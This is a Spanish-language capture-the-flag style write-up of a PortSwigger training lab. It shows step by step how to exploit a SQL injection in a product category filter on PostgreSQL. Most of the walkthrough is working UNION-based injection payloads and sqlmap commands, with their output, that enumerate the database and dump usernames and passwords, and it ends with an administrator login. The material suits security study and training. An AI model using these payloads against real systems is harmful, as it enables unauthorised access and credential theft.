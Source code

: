 ```yaml
---
title: SQL injection UNION attack, retrieving multiple values in a single column
date: 2024-11-15 12:40:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving multiple values in a single column
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-10/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-10/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-10/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-10/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-10/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-10/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle` debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-10/image_6.png)


`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-10/image_7.png)

`Listamos` la `base de datos actual`

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-10/image_8.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
/filter?category=Gifts'+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-10/image_9.png)

`Listamos` el `nombre` de las `tablas`

```
/filter?category=Gifts'+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-10/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-10/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+null,string_agg(username||':'||password,',+')+from+users--+-+
```

![](/assets/img/SQLI-Lab-10/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users        |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password        | varchar |
| username        | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users -C password,username --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+----------------------+-----------------+
| password             | username        |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-10/image_13.png)
